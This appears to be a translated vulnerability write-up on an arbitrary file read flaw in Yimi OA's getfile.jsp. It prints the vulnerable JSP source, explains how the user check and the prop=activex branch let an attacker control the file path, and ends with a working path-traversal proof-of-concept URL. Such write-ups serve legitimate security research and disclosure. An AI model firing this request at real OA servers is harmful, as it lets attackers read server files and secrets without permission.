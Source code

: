 # Yimi OA getfile.jsp Arbitrary file reading vulnerability

## Vulnerability Description

One meter OA getfile.jsp file insufficient filtering, resulting in arbitrary file reading vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">One meter OA</span>

## Network surveying and mapping



## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628483166897-10963648-1494-4ea3-a76b-e5865f0d0f00.png)

Files with vulnerability

```php
<%@ page contentType="text/html;charset=utf-8" %>
<%@page import="cn.js.fan.util.*" %>
<%@page import="cn.js.fan.web.Global" %>
<%@page import="com.redmoon.oa.*" %>
<%@page import="java.io.*" %>
<jsp:useBean id="fchar" scope="page" class="cn.js.fan.util.StrUtil"/>
<jsp:useBean id="fsecurity" scope="page" class="cn.js.fan.security.SecurityUtil"/>
<jsp:useBean id="privilege" scope="page" class="com.redmoon.oa.pvg.Privilege"/>
<%
    String user = ParamUtil.get(request, "user");
    if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }

    String filename = ParamUtil.get(request, "filename");
    String extname = request.getParameter("extname");
    String prop = request.getParameter("prop");
    if (filename == null) {
        System.out.println("缺少文件名！");
        return;
    }

    filename = filename + "." + extname;

    Config cfg = new Config();
    String noticefilepath;
    if ("activex".equals(prop)) {
        noticefilepath = prop;
    } else {
        noticefilepath = cfg.get(prop);
    }

    String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }

    response.setContentType("application/" + extname);
    response.setHeader("Content-disposition", "attachment; filename=" + filename);

    BufferedInputStream bis = null;
    BufferedOutputStream bos = null;

    try {
        bis = new BufferedInputStream(new FileInputStream(filePath));
        bos = new BufferedOutputStream(response.getOutputStream());

        byte[] buff = new byte[2048];
        int bytesRead;

        while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
            bos.write(buff, 0, bytesRead);
        }

    } catch (final IOException e) {
        System.out.println("出现IOException." + e);
    } finally {
        if (bis != null)
            bis.close();
        if (bos != null)
            bos.close();
    }

    out.clear();
    out = pageContext.pushBody();
%>
```

First, verify whether the user parameter is empty. You need to assign arbitrary values ​​to the user parameter.

```php
if ("".equals(user)) {
        if (!privilege.isUserPrivValid(request, "read")) {
            System.out.println("警告非法用户，你无访问此页的权限！");
            return;
        }
    }
```

Then accept 3 parameters `filename, extname, prop`

```php
String filename = ParamUtil.get(request, "filename");
String extname = request.getParameter("extname");
String prop = request.getParameter("prop");
```

Then determine whether prop is activex, which does not mean that the default path configured by the system will be called.
So we can control the two parameters of filename and extname. 

```php
String filePath = Global.getRealPath() + "/" + noticefilepath + "/" + filename;
    if ("li".equals(prop)) {
        filePath = Global.getRealPath() + "WEB-INF/" + prop + filename;
    }
```

Verify POC

```php
/public/getfile.jsp?user=1&prop=activex&filename=../public/getfile&extname=jsp 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628483231725-7feffe1e-0514-4149-8afc-57d0c9ce1dad.png)



If you gain something, just like it